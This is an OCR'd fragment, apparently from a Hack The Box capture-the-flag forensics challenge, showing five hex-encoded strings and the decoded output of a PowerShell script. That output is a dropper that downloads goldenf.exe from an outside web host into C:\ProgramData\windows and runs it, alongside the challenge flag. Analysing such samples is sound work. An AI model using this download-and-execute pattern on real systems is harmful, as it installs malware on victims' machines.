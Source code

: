 


## encrypted1 = F844A6035CF27CC4C90DFEAF579398BE6F7D5ED10270BD12A661DAD04191347559B82ED546015B07317000D8909939A4DA7953AED8B83C0FEE4EB6E120372F536BC5DC39    encrypted2 = CC19F66A5F3B2E36C9B810FE7CC4D9CE342E8E00138A4F7F5CDD9EED9E09299DD7C6933CF4734E12A906FD9CE1CA57D445DB9CABF850529F5845083F34BA1    encrypted3 = C08114AA67EB979D36DC3EFA0F62086B947F672BD8F966305A98EF93AA39076C3726B0EDEBFA10811A15F1CF1BEFC78AFC5E08AD8CACDB323F44B4D    encrypted4 = D814EB4E244A153AF8FAA1121A5CCFD0FEAC8DD96A9B31CCF6C3E3E03C1E93626DF5B3E0B141467116CC08F92147F7A0BE0D95B0172A7F34922D6C236BC7DE54D8ACBFA70D1    encrypted5 = 84AB553E67C743BE696A0AC80C16E2B354C2AE7918EE08A0A3887875C83E44ACA7393F1C579EE41BCB7D336CAF8695266839907F47775F89C1F170562A6B0A01C0F3BC4CB 




└╼$ \./a\.ps1
$path ="C:\\ProgramData\\windows\\goldenf\.exe";$exists = Test\-Path \-Path $path \-PathType Leaf;if \( $exists \)\{Start\-Process $path\}else\{mkdir "C:\\ProgramData\\windows";Invoke\-WebRequest \-Uri [https://thoccarthmercenaries.edu.tho/wp-content/goldenf.exe](#https://thoccarthmercenaries.edu.tho/wp-content/goldenf.exe)
\-OutFile $path;$flag="HTB\{g0ld3n\_F4ng\_1s\_n0t\_st34lthy\_3n0ugh\}";Start\-Process $path\}


